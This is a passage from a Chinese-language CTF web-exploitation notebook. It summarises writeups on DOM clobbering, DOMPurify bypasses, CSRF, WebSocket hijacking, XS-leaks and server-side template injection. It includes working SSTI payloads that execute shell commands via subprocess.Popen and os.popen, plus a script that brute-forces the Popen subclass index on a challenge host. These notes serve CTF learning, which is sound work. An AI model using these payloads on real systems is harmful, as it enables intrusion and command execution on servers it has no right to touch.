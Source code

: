         - `console.log(Object.keys(this))`会使整个tab崩溃，观察崩溃的情况可以得到flag的内容
        - 如何利用Browsing Context Group（BCG）反复进行某个攻击
- [A Minecraft Movie](https://adrianjunge.de/ctf/umdctf/A%20Minecraft%20Movie)
    - DOMPurify Client-side XSS过滤。允许src为`youtube.com/embed`的iframe，同时admin bot（puppeteer）固定点击id为`dislike-button`的元素。目标是让admin like某个post。没想到竟然能有四种解法
    - DOM clobbering。网站使用了js全局对象`window.sessionNumber`控制post请求发送的参数：`sessionNumber=${window.sessionNumber}&likes=-10`。于是可以构造`<a href="&likes=10" id="sessionNumber">`，使得`window.sessionNumber`的值为`&likes=10`，覆盖后面的同名参数
    - DOMPurify没有禁止form元素，同时selenium/puppeteer内部使用的`document.getElementById('id')`会返回dom中第一个id为`id`的元素（如果有重复）。所以可以自行创建一个id为`dislike-button`的form实现csrf
    - `youtube.com/embed`只允许目的地为google相关域名。但存在一个`googleads`产品允许重定向至任意网站。加上cookie的属性为`sameSite=none`，可以直接在别的网站执行攻击
    - 创建一个id为`dislike-button`的div元素，同时通过style属性设置其css，将div移到like按钮下。bot会选中这个元素，但在执行click操作时，由于代码模拟的是真实的鼠标点击，实际点到的是like按钮而不是div元素
    - 其他稍有不同的解法：**A Minecraft Movie**
    - 以及，这题是react网站，因此上述逻辑需要去混淆后才能看到。直接拿AI就好： https://fireshellsecurity.team/umdctf2025-web-writeups
- [Wembsoncket](https://github.com/BYU-CSA/BYUCTF-2025/tree/main/web/wembsoncket)
    - Cross-Site WebSocket Hijacking (CSWSH)。websocket没有同源策略，因此可以从任何origin发起连接，所谓“Cross-Site”。其实是可以用验证cookie等手段防止劫持的，但这题admin bot的cookie设置为samesite=none
    - 一个使用cloudflared替代ngrok的方法： https://baozongwi.xyz/2025/05/17/BYUCTF2025 。`cloudflared tunnel --url http://localhost:8000`，不需要账号或者域名，可得到一个`xxx.trycloudflare.com`子域名
- [XXS XSS](https://hackmd.io/VXBgjljNTKatGeOx1O8v7A)
    - `javascript:`协议的利用。可以控制`window.location.href`的值，但长度不能超过15：让url等于`javascript:name`(必须是name，协议只识别这个名称，随后原封不动地渲染其内容),然后get传name参数设置执行的html
- [NOT XSS](https://hackmd.io/VXBgjljNTKatGeOx1O8v7A)
    - cookie长度通常存在上限，浏览器会拒绝超过长度上限的cookie
    - xs leak。当猜对部分flag时app会增加cookie的长度，并渲染cookie中存储的note。如果将cookie长度设为`上限-1`，就能根据note的渲染情况，一个字符一个字符地爆破flag
    - https://github.com/runasy-koonta/nhnc-2025-not-xss-solver

## SSTI

ssti（模板注入）。这张简单但是经典的表说明当出现ssti时如何测试是什么模板。

![ssti_test](../../CTF/BUUCTF/images/Pasted-1-768x458.png)

模板注入分很多种，慢慢积累。

- [twig](https://xz.aliyun.com/t/10056#toc-13)(php)
- [smarty](https://www.anquanke.com/post/id/272393)(php)
- [flask](../../CTF/攻防世界/3级/Web/shrine.md)(python)。例题1:[[GYCTF2020]FlaskApp](../../CTF/BUUCTF/Web/[GYCTF2020]FlaskApp.md)。例题2（利用[subprocess.Popen](https://blog.csdn.net/whatday/article/details/109315876)执行命令）:[[CSCCTF 2019 Qual]FlaskLight](https://blog.csdn.net/mochu7777777/article/details/107589811)。命令：`{{''.__class__.__mro__[1].__subclasses__()[395]('ls',shell=True,stdout=-1).communicate()[0].strip()}}`。索引需要爆破：

```python
import requests
headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'
}
for i in range(300,1000):
    url = "http://935b5916-e3d0-4949-80b9-7273c9f46f7b.challenge.ctf.show/hello/{{''.__class__.__mro__[1].__subclasses__()"+f"[{i}]"+"}}"
    res = requests.get(url=url, headers=headers)
    print(res.text)
    if 'Popen' in res.text:
        print(i)
        break 
```
  - 当flask的{{}}被过滤时，可以用{%%}来绕过过滤。例题:[[GWCTF 2019]你的名字](https://blog.csdn.net/cjdgg/article/details/119813547),更多绕过方式可参考[此处](https://blog.csdn.net/miuzzx/article/details/110220425)
  - 最简单的getshell payload(配合eval): `__import__("os").popen("ls").read()`，来源:[[watevrCTF-2019]Supercalc](https://blog.csdn.net/a3320315/article/details/104272833)